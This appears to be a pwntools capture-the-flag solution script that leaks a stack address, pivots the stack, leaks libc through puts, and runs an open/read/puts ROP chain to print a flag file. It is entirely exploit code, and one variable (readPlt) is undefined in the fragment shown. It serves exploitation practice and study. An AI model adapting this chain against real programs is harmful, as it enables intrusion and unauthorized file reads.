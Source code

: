 ```python
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    func = elf.symbols['func']
    rdi = gadgets.rdi.address
    leave = gadgets.leave.address

    # steal rbp first
    sh.sendafter(b'content', b'FLAG'.rjust(8 * 0x28))
    sh.recvuntil(b'FLAG')
    rbp = u64(sh.recv(6) + b'\0\0')
    rsp = rbp - 0x2a * 8
    info(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    # then stack pivot back and leak libc, return to func
    sh.sendafter(b'again:\n', (p64(rsp - 0x128) + p64(rdi) + p64(putsGot) + p64(putsPlt) + 
                               p64(func)).ljust(8 * 0x28) + p64(rsp) + p64(leave))

    # finally we stack pivot once more to operate orw
    puts = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = puts - libc.symbols['puts']
    gadgets = ROP(libc)
    rsi = libcBase + gadgets.rsi.address
    rdx = libcBase + gadgets.rdx.address
    open64 = libcBase + libc.symbols['open64']
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))
    sh.sendafter(b'content', b'skip this input')
    rsp -= 0x120
    sh.sendafter(b'again:\n', b'flag'.ljust(8, b'\0') + (
                 p64(rdi) + p64(rsp) + p64(rsi) + p64(0) + p64(open64) +
                 p64(rdi) + p64(3) + p64(rsi) + p64(rbp) + p64(rdx) + p64(0x50) + p64(readPlt) +
                 p64(rdi) + p64(rbp) + p64(putsPlt)).ljust(8 * 0x27) +
                 p64(rsp) + p64(leave))

    success(f'FLAG is: {sh.recvuntil(b"}").decode()}')
    sh.close()
```
